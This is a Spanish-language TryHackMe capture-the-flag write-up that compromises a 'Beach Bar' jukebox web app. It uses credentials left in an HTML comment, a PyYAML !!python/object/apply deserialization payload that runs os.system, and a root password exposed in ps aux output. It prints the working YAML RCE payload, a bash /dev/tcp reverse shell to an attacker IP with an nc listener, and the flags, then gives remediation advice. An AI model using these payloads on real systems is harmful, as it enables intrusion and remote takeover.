




Plataforma
TryHackMe
Cadena de tres vulnerabilidades encadenadas: credenciales hardcodeadas en comentario HTML, deserialización insegura de YAML que permite ejecución remota de código, y contraseña expuesta en un proceso del sistema que otorga acceso root completo.
El objetivo era una aplicación web temática del resort: Beach Bar, un panel de gestión de la jukebox del bar de playa. Al acceder a la IP del laboratorio se presentaba un formulario de login titulado "DJ booth sign-in", orientado a gestionar las playlists del equipo de sonido en vivo.
El primer paso fue inspeccionar el código fuente de la página de login antes de intentar cualquier autenticación. El análisis del HTML reveló inmediatamente un comentario dejado por el equipo de desarrollo con credenciales de demo activas para la apertura del local:
# Vista del código fuente de /login
<!--
staff note: the demo DJ login is still enabled for the soft opening.
dj / dj -- swap this before the season starts (ticket BAR-7)
-->Una nota interna nunca removida del código de producción exponía las credenciales en texto plano. El ticket referenciado (BAR-7) sugería que el equipo era consciente del problema pero no lo había resuelto antes del despliegue.

dj / dj.El análisis del panel autenticado reveló tres vulnerabilidades encadenables:
yaml.load() sin restricciones de tipo. PyYAML soporta la directiva !!python/object/apply, que permite instanciar objetos Python arbitrarios durante la carga, incluyendo llamadas a funciones del sistema operativo.--stream-pass), visible para cualquier usuario del sistema mediante ps aux.!!python/object/apply es un vector conocido (CVE-2017-18342 y variantes). El uso de yaml.safe_load() en lugar de yaml.load() bloquea completamente esta clase de ataques, ya que el parser seguro no resuelve tipos Python arbitrarios. La existencia de esta vulnerabilidad en producción indica que la función de importación nunca fue auditada con criterio de seguridad.Paso 1 — Acceso inicial con credenciales del comentario HTML. Se utilizaron las credenciales encontradas en el código fuente para autenticarse en el panel:
Usuario: dj
Contraseña: dj
→ Acceso exitoso al dashboard como usuario "dj".El dashboard confirmaba sesión activa y mostraba funciones de gestión de playlists: Export (descarga el YAML actual) e Import (carga un YAML nuevo).

Paso 2 — Verificación del formato YAML legítimo. Se exportó la playlist activa para entender la estructura esperada por el parser:
# Beach Bar jukebox playlist export
playlist:
name: Sunset Session
vibe: golden hour
tracks:
- artist: Khruangbin
title: Maria Tambien
- artist: Men I Trust
title: Show Me How
- artist: Crumb
title: LocketPaso 3 — RCE mediante YAML deserialization. Se construyó un payload malicioso aprovechando la directiva !!python/object/apply de PyYAML para ejecutar comandos del sistema. Se utilizó primero un payload de prueba para confirmar ejecución:
!!python/object/apply:os.system ["id"]El resultado devuelto por la aplicación fue 0 (exit code de éxito), confirmando ejecución remota. Para obtener una shell interactiva se configuró un listener y se envió un payload de reverse shell:
# En la máquina atacante:
nc -lnvp 4444
# Payload YAML enviado al Import:
!!python/object/apply:os.system
["bash -c 'bash -i >& /dev/tcp/10.67.133.172/4444 0>&1'"]
bartender, directorio /opt/beach-bar/webapp.Paso 4 — Obtención de la user flag. Con la shell activa se enumeró el home del usuario bartender:
bartender@tryhackme-2404:/opt/beach-bar/webapp$ ls ~
user.txt
bartender@tryhackme-2404:/opt/beach-bar/webapp$ cat ~/user.txt
THM{y4ml_pl4yl1st_pwns_th3_b34ch}Paso 5 — Escalada de privilegios a root vía contraseña expuesta en proceso. Se estabilizó la shell y se enumeraron los procesos del sistema buscando servicios relevantes:
# Estabilización de la shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Enumeración de procesos
ps aux | grep jukebox
root 611 ... /opt/beach-bar/venv/bin/python /opt/beach-bar/jukeboxd/jukeboxd.py \
--stream-pass SunsetSpritz2024! --bitrate 320kEl proceso jukeboxd.py, ejecutándose como root, exponía su contraseña de streaming como argumento de línea de comandos, visible para todos los usuarios del sistema. Se intentó reutilizar esa contraseña para escalar a root mediante su:
bartender@tryhackme-2404:/opt/beach-bar/webapp$ su
Password: SunsetSpritz2024!
root@tryhackme-2404:/opt/beach-bar/webapp# whoami
rootPaso 6 — Obtención de la root flag:
root@tryhackme-2404:~# cat root.txt
THM{cr3d3nt14l_r3us3_4t_th3_b34ch_b4r}
jukeboxd.La cadena de vulnerabilidades resultó en compromiso total del sistema:
bartender a través de deserialización insegura de YAML (PyYAML).user.txt y root.txt, confirmando control total sobre la máquina objetivo.En un entorno real, un atacante con acceso root a un servidor de producción podría comprometer toda la infraestructura relacionada, exfiltrar datos de usuarios, modificar el servicio de streaming, o usar el sistema como pivote hacia redes internas.
yaml.load() por yaml.safe_load(): el parser seguro de PyYAML no resuelve directivas de tipo Python, bloqueando completamente la ejecución arbitraria de código durante la deserialización.ps aux. Usar variables de entorno, archivos de configuración con permisos restrictivos, o gestores de secretos.jukeboxd no necesita ejecutarse como root. Crear un usuario de servicio dedicado con únicamente los permisos necesarios.Este reto es un ejemplo clásico de cómo vulnerabilidades individuales de severidad media o baja pueden encadenarse para producir un impacto crítico. Ninguno de los tres vectores por separado habría bastado: las credenciales dj/dj solas solo dan acceso al panel, la deserialización YAML requería autenticación previa, y la contraseña del proceso solo era útil teniendo ya una shell en el sistema.
El caso de PyYAML también refuerza que la elección de una función sobre otra (load vs safe_load) puede ser la diferencia entre una aplicación segura y un RCE completo. La función insegura existe en la librería por razones de compatibilidad histórica, pero su uso en código que procesa input de usuarios es una vulnerabilidad por diseño.
Por último, la exposición de contraseñas en argumentos de proceso es un vector frecuentemente subestimado en auditorías. Un simple ps aux puede revelar secretos que el equipo cree protegidos, especialmente en entornos donde múltiples usuarios comparten el mismo servidor.